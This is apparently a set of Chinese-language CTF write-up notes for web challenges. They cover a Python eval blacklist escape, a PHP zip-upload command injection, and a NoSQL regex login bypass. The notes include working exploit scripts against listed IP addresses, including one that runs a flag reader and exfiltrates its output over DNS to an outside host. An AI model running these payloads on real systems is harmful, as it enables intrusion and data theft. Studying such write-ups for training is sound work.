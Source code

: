 
# web
### Escape_Plan

#python_escape
```python
import base64

from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def challenge_3():
cmd = request.form.get("cmd", "")
if not cmd:
	return """<pre>
import requests, base64
exp = ''
requests.post("", data={"cmd": base64.b64encode(exp.encode())}).text
</pre>
"""

try:
	cmd = base64.b64decode(cmd).decode()
except Exception:
	return "bad base64"

black_char = [
	"'", '"', '.', ',', ' ', '+',
	'__', 'exec', 'eval', 'str', 'import',
	'except', 'if', 'for', 'while', 'pass',
	'with', 'assert', 'break', 'class', 'raise',
	'0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
]
for char in black_char:
	if char in cmd:
		return f'failed: `{char}`'

msg = "success"
try:
	eval(cmd)
except Exception:
	msg = "error"

return msg

```

--- 
*看看wp*
如上,我们需要绕过黑名单,python的机制允许我们使用全角字符执行代码,数字的绕过可以采用 len函数

```Python
import requests
import base64
#Dns 外带
shell='ping -c 1 `/readflag`.c17fafb7.dns.dnsmap.org'
s=''
for i in shell:
    s+="chr("+str(ord(i))+")+"
print(s[0:-1])
payload = payload = "__import__('os').popen({})".format(s[0:-1])

# 38:len()-9
payload1 = "ᵉxec(repr(request)[(len(black_char[len([])])<<(len(black_char[len([])])))|(len(black_char[len([])])<<(len(black_char[len([])])<<len(black_char[len([])])))|(len(black_char[len([])])<<(len(black_char[len([])])<<len(black_char[len([])])<<len(black_char[len([])])|len(black_char[len([])]))):len(repr(request))-int(black_char[len(black_char)-len(black_char[len([])])])])"
data = {"cmd": base64.b64encode(payload1.encode('utf-8')).decode('utf-8')}
url='http://47.102.115.18:30634/?'+payload
response=requests.post(url=url,data=data)
print(response.text)
```

但是还是过滤了 `'`,需要通过外部参数绕过,payload截取字符串

### d3cloud

---
admin/admin 登录后发现 media manager 存在FilesystemAdapter.php  ,审计后上传文件出存在命令执行漏洞
```php
    public function putFileAs($path, $file, $name, $options = [])
    {
        $supported_file = array('gif','jpg','jpeg','png','ico','zip','mp4','mp3','mkv','avi','txt');
        $file_type= strtolower(pathinfo($name,PATHINFO_EXTENSION));
        if (!in_array($file_type, $supported_file)) {
            return false;
        }
        $stream = fopen($file->getRealPath(), 'r+');
        $result = $this->put(
            $path = trim($path.'/'.$name, '/'), $stream, $options
        );
        if (is_resource($stream)) {
            fclose($stream);
        }
        if($file->getClientOriginalExtension() === "zip") {
        //其中 文件名可控
            $fs = popen("unzip -oq ". $this->driver->getAdapter()->getPathPrefix() . $name ." -d " . $this->driver->getAdapter()->getPathPrefix(),"w");
            pclose($fs);
        }
        return $result ? $path : false;
    }
```

### d3node
#nosql 


```Python 
import requests
import string

url = "http://106.14.124.130:30120/user/LoginIndex"

# passwd = "dob2xdriaqpytdyh6jo3"
while True:
    for char in string.printable:
        if char not in ['*', '+', '.', '?', '|', '#', '&', '$', '(', ')','[','\\','[']:
            data = {"username": "admin", "password": {"$regex": f"^{passwd+char}"}}
        r = requests.post(url,json=data)
        # print(r.text)
        if "Login failed,invalid username or password" not in r.text:
            passwd += char
            print(passwd)
            break
```


```sql
db.users.find({'username':'admin', 'password':{$regex:^passwd}})
```


# reverse

# pwn

# crypto

# Misc


---
*相关wp*

https://fq6p9pyo5tt.feishu.cn/docx/InUFdQUKdozf8yx5IhGcf5zInSe

https://mp.weixin.qq.com/s?__biz=Mzg4MjcxMTAwMQ==&mid=2247486967&idx=1&sn=ad55ddd11c6bfa17843270625f5f92fc&chksm=cf53cd41f8244457c2db68626c91f2e4564d756b903222f3a913e89f211d475418864c5041bc&mpshare=1&scene=23&srcid=0501bEUrW8ydbpm175TL5FFn&sharer_sharetime=1682949687637&sharer_shareid=6eea79ff6da57fc6752ab0bc570bf392#rd



2023-05-02   02:59